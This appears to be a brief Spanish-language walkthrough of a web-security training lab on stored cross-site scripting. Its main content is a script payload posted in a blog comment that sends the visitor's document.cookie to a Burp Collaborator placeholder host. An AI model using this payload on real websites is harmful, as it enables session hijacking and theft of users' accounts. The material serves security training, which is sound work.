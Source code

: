 # 22 Lab: Exploiting cross-site scripting to steal cookies

Enviamos el siguiente payload en un comentario de blog, insertando su subdominio de Burp Collaborator donde se indica:

```sql
<script>
fetch('[https://BURP-COLLABORATOR-SUBDOMAIN](https://burp-collaborator-subdomain/)', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![Untitled](22%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%20co%2017efab5460ec81e2a3f7ca697c5147b2/Untitled.png)

![Untitled](22%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%20co%2017efab5460ec81e2a3f7ca697c5147b2/Untitled%201.png)